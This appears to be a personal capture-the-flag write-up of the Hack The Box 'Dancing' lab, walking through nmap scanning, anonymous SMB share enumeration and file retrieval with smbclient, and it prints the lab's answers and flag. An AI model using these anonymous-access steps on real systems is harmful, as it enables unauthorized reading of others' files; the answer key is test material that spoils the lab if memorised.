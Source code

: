 ```yaml
---
id: starting_point_dancing
aliases: []
tags:
  - protocols
  - smb
  - reconnaissance
  - anonymous/guest_access
date: "2025-01-23"
---
```


# HTB_starting_point_meow

- Platform: Hack The Box
- Category:CTF
- Difficulty: Very Easy
- Estimated Time: Under 10 minutes

---

## 💡 **Objective**

- What does the 3-letter acronym SMB stand for? `Server Message Block`
- What port does SMB use to operate at?`445`
- What is the service name for port 445 that came up in our Nmap scan?`microsoft-ds`
- What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?`-L`
- How many shares are there on Dancing?`4`
- What is the name of the share we are able to access in the end with a blank password?`WorkShares`
- What is the command we can use within the SMB shell to download the files we find?`get`
- Submit root flag
  ```bash
  5f61c10dffbc77a704d76016a22f1664
  ```

---

## 🛠️ **Preparation**

- **Tools Used:** [nmap, smbclient]
- **Environment:** [Arch Linux]
- **Commands to Remember:**

  - Listing Share yang tersedia
    ```bash
    smbclient -L 10.129.145.2
    ```
  - Login ke share tertentu
    ```bash
    smbclient //10.129.145.2/WorkShares -U anonymous
    ```
  - Scan port 445
    ```bash
    sudo nmap -sV -p 445 -oN starting_point_fawn.txt 10.129.145.2
    ```

---

## 🔍 **Enumeration**

- **Initial Reconnaissance:**
  - Target IP/URL: `10.129.145.2`
  - Open Ports/Services:
    ```plaintext
    PORT    STATE SERVICE       VERSION
    445/tcp open  microsoft-ds?
    ```
  - ## Vulnerabilities Identified:
- **Detailed Findings:**
  - Anonymous SMB Access Misconfiguration

---

## 🧩 **Exploitation**

- **Steps Taken:**

  1. Scanning IP with nmap

  ```bash
  # Nmap 7.95 scan initiated Thu Jan 23 21:13:36 2025 as: nmap -sV -p 445 -oN starting_point_dancing_445.txt 10.129.145.2
  Nmap scan report for 10.129.145.2
  Host is up (0.35s latency).

  PORT    STATE SERVICE       VERSION
  445/tcp open  microsoft-ds?

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  # Nmap done at Thu Jan 23 21:14:06 2025 -- 1 IP address (1 host up) scanned in 29.44 seconds
  ```

  2. Identifying open ports: 445/tcp microsoft-ds -> SMB
  3. Listing Share that available

  ```bash
  ❯ smbclient -L 10.129.145.2 -U anonymous
  Can't load /etc/samba/smb.conf - run testparm to debug it
  Password for [WORKGROUP\anonymous]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk
  SMB1 disabled -- no workgroup available
  ```

  4. Connect to the Share, with the username `anonymous`

  ```bash
  ❯ smbclient //10.129.145.2/WorkShares -U anonymous
  Can't load /etc/samba/smb.conf - run testparm to debug it
  Password for [WORKGROUP\anonymous]:
  Try "help" to get a list of possible commands.
  smb: \> ls
  .                                   D        0  Mon Mar 29 15:22:01 2021
  ..                                  D        0  Mon Mar 29 15:22:01 2021
  Amy.J                               D        0  Mon Mar 29 16:08:24 2021
  James.P                             D        0  Thu Jun  3 15:38:03 2021

                5114111 blocks of size 4096. 1752908 blocks available
  ```

  5. Find Flag

  ```bash
  smb: \> cd James.p
  smb: \James.p\> ls
  .                                   D        0  Thu Jun  3 15:38:03 2021
  ..                                  D        0  Thu Jun  3 15:38:03 2021
  flag.txt                            A       32  Mon Mar 29 16:26:57 2021

                5114111 blocks of size 4096. 1753240 blocks available
  ```

  6. Download the flag

  ```bash
  smb: \James.p\> get flag.txt
  getting file \James.p\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
  ```

  7. cat the flag
     `5f61c10dffbc77a704d76016a22f1664`

- **Challenges Faced:**
  - Know that microsoft-ds is a services for SMB
  - download the file, using `get` command
  - understand the smbclient options, -L, -U

---

## 🚀 **Post-Exploitation**

- **Access Gained:**
  - User: [user]
  - Privileges: [limited]
- **Privilege Escalation Steps:**
  - Not use escalation, just get the flag

---

## 📝 **Key Learnings**

- **What I Learned:**
  - Connecting to the target with smb port 445, using anonymous username.
  - Scanning port spesific using new options in nmap -p: scan port
    ```bash
    sudo nmap -sV -p 445 -oN starting_point_fawn.txt 10.129.145.2
    ```
- **Mistakes to Avoid:**
  - No Read the manual/documentation

---

## 🔧 **How To Fix Vulnerabilities**

- **Vulnearbilties Encountered:**

  - Vuln:
    - Anonymous login is enabled
  - Fix:
    - Deactivate anonymous login
    - Restricted SMB Sharing Access
    - Use strong authentication
    - Firewall Rules
    - Monitor the logs
    - Update Software FTP

- ## **Helpful Resources:**
  - [Pengertian SMB](https://puskom.uma.ac.id/2022/12/server-message-block-protocol-smb-protocol)

---

## 🎯 **Post-Lab Reflection**

- **How Could I Improve?**
  - Improve the nmap scan options using -p
- **Next Steps:**
  - Practice how to activate or deactivate SMB services
